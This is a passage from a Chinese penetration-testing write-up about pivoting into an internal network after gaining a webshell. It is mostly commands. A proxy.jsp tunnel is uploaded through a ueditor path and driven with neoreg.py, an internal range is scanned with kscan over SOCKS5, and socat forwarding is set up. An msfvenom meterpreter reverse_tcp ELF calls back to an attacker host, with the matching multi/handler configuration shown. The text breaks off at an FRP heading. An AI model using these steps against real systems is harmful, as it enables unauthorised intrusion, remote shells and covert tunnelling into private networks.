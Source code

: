 007对隧道执念很深，笔者认为这里应该有很多方式可以搞，比如基于jsp文件来进行扫描和数据库爆破，并不一定非要出网用熟悉的工具来测试。

0x07 兜兜转转进内网
============

原本我以为换个服务器应该会不一样了，结果是同样的情况，心态崩了，后面没办法了，得想尽办法搞个代理，方便本地fuzz一下内网服务。

**尝试reGrorg**

上传proxy.jsp,尝试使用网页代理，这个性能一般般，能支持基本RDP的数据传输。

```java
1.  https://xxx.xxxxxxx.com/ueditor/jsp/xxx/proxy.jsp  
```

本地构建代理:

```java
1.  python neoreg.py  -u "https://xxx.com/ueditor/xx/xx/proxy.jsp" -k password -p 9999  
```

![22.png](https://shs3.b.qianxin.com/attack_forum/2022/03/attach-057427091bdd8e418fffb7ef015cc3d97c1e09d6.png)

然后用kscan进行socks5代理扫描:

```java
1.  kscan --proxy socks5://127.0.0.0:9999  -t 1.0.0.0/24 --threads 10  
```

效果非常不尽人意，扫描质量并不好。

![23.png](https://shs3.b.qianxin.com/attack_forum/2022/03/attach-57f059bfd57cc8a24793bdebc14a8917697c5515.png)

继续挂着这个低速代理折腾几十分钟，没很大收获，主要是很卡。不过，在这个过程中，对Shell测试其他点后，我发现了命令不回显的原因，是Nginx代理设置了超时时间窗口，超过窗口的花请求就会被断开，导致没有命令结果回显，并不是被Battle，后面通过一些途径弄到了一台国内机器的IP用socat进行端口转发，一切似乎好起来了。

**MSF上线**

生成Linux ELF木马文件:

```java
1.  msfvenom -p linux/x64/meterpreter/reverse\_tcp LHOST=172.16.252.129 LPORT=443 -f elf > shell.elf  
```

MSF Server端配置:

```java
1.  use exploit/multi/handler  
2.  set payload linux/x64/meterpreter/reverse\_tcp  
3.  set lhost 172.16.252.129  
4.  set lport 443  
5.  show options  
6.  exploit  
```

反弹上线

![24.png](https://shs3.b.qianxin.com/attack_forum/2022/03/attach-68f3dba9b22724b977c6cf4573f93b6e2c288808.png)

**配置FRP**
